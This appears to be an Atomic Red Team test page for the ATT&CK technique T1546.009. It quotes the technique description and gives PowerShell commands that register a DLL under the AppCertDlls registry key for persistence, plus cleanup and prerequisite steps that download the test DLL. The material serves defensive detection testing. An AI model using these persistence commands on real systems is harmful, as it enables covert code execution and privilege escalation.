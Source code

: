 # T1546.009 - Event Triggered Execution: AppCert DLLs

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/009)

<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppCert DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppCertDLLs</code> Registry key under <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\</code> are loaded into every process that calls the ubiquitously used application programming interface (API) functions <code>CreateProcess</code>, <code>CreateProcessAsUser</code>, <code>CreateProcessWithLoginW</code>, <code>CreateProcessWithTokenW</code>, or <code>WinExec</code>. (Citation: Elastic Process Injection July 2017)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), this value can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. Malicious AppCert DLLs may also provide persistence by continuously being triggered by API activity. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create registry persistence via AppCert DLL](#atomic-test-1---create-registry-persistence-via-appcert-dll)

<br/>

## Atomic Test #1 - Create registry persistence via AppCert DLL

Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key.
Once the computer restarted, the DLL will be loaded in multiple processes and write an
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows

**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05

#### Inputs:

| Name     | Description                                                        | Type   | Default Value                                                |
| -------- | ------------------------------------------------------------------ | ------ | ------------------------------------------------------------ |
| dll_path | path of dll to use                                                 | path   | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll |
| reboot   | Set value to $true if you want to automatically reboot the machine | string | $false                                                       |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Copy-Item "#{dll_path}" C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:

```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```

#### Dependencies: Run with `powershell`!

##### Description: File to copy must exist on disk at specified location (#{dll_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```

<br/>
